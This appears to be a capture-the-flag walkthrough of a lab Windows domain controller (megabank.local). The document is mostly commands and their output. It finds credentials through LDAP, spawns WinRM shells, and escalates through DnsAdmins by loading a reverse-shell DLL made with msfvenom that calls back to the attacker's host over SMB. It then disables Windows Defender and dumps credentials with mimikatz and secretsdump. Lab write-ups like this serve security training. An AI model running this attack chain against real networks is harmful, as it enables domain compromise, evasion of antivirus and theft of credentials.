## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -oN scans/nmap.txt 10.10.10.169
```

```text
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-08-04 11:57:30Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h27m00s, deviation: 4h02m31s, median: 6m59s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-08-04T11:57:36
|_  start_date: 2022-08-04T10:48:30
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2022-08-04T04:57:35-07:00
```

First add `megabank.local` to `/etc/hosts`.

We can use `ldapsearch` to enumerate users and groups.

```bash
ldapsearch -x -H ldap://megabank.local -b 'DC=megabank,DC=local' | grep -i samaccountname
```

  

We can also look for information within the `info` and `description` object attributes.

```bash
ldapsearch -x -H ldap://megabank.local -b 'DC=megabank,DC=local' | grep -i description -A 1
```

  

The last user in the list seems to have credentials in the description. Let's try using these to login.

  

```text
Welcome123!
```

Let's make a user list.

```bash
ldapsearch -x -H ldap://megabank.local -b 'DC=megabank,DC=local' | grep -i userprincipalname | cut -d '@' -f 1 | cut -d ':' -f 2 | tr -d ' \t' > userlist.txt
```

  

We get a hit on the user `melanie`.

  

```text
melanie:Welcome123!
```

## Shell as melanie

```bash
evil-winrm -i megabank.local -u melanie -p Welcome123!
```

  

### User.txt

```powershell
cat user.txt; ipconfig
```

  

### Enumeration

In the root `C:\` directory we can see a hidden `PSTranscripts` folder.

  

In the `C:\PSTranscripts\20191203` directory is a file `PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

  

It looks like it contains credentials for the user `ryan`.

  

```text
ryan:Serv3r4Admin4cc123!
```

### Shell as ryan

```bash
evil-winrm -i megabank.local -u ryan -p Serv3r4Admin4cc123!
```

  

There's a note on `ryan`'s desktop.

  

### Bloodhound

Use `bloodhound-python` to dump domain objects to analyse within `bloodhound`.

```bash
bloodhound-python -c All -u melanie -p 'Welcome123!' -d megabank.local -dc megabank.local -ns 10.10.10.169
```

  

We can see that `ryan` is part of the `Contractors` group.

  

We can also see that the `Contractors` group is within the `DNS Admins` and `Remote Management Users` groups. 

  

We should be able to use DLL injection of the DNS plugin to escalate our privileges.

## Privilege Escalation

First we need to create a DLL. We'll use `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=9001 -f dll > pwn.dll
```

  

Next to access the DLL from the target we need to setup a SMB server.

```bash
impacket-smbserver -smb2support kali .
```

  

Start a `netcat` listener.

```bash
rlwrap nc -lnvp 9001
```

Now we can inject our DLL using `dnscmd.exe`.

```powershell
dnscmd.exe /config /serverlevelplugindll \\10.10.16.5\kali\pwn.dll
```

  

Then stop and start the DNS service to load our malicious DLL.

```powershell
sc.exe stop dns
sc.exe start dns
```

  

And we should get our shell.

  

### Root.txt

```powershell
type root.txt && ipconfig
```

  

## Post Exploitation

### Dump Hashes

First we need to disable the AntiVirus.

```powershell
powershell -command "Set-MpPreference -DisableRealtimeMonitoring $true" && reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD_LITTLE_ENDIAN /d 1 /f
powershell -command "Set-MpPreference -DisableRealtimeMonitoring $true" && reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD_LITTLE_ENDIAN /d 1 /f
```

  

Next we need to upload `mimikatz.exe`. We can do this using our existing SMB share.

```bash
copy \\10.10.16.5\kali\mimikatz.exe c:\users\administrator\desktop
```



Now we can use mimikatz to dump hashes.

```powershell
.\mimikatz.exe

sekurlsa::logonpasswords
```

  

```text
Administrator:fb3b106896cdaa8a08072775fbd9afe9
```

We can also find the plaintext credentials for Administrator.

```text
Administrator:DontH4ckUsPleeze!
```

  

We can use a pass the hash attack along with `secretsdump` to dump all target hashes.

```bash
impacket-secretsdump 'megabank.local/Administrator:DontH4ckUsPleeze!@megabank.local' -outputfile hashes
```

  

### WinRM

```bash
evil-winrm -i megabank.local -u Administrator -p DontH4ckUsPleeze!
```

  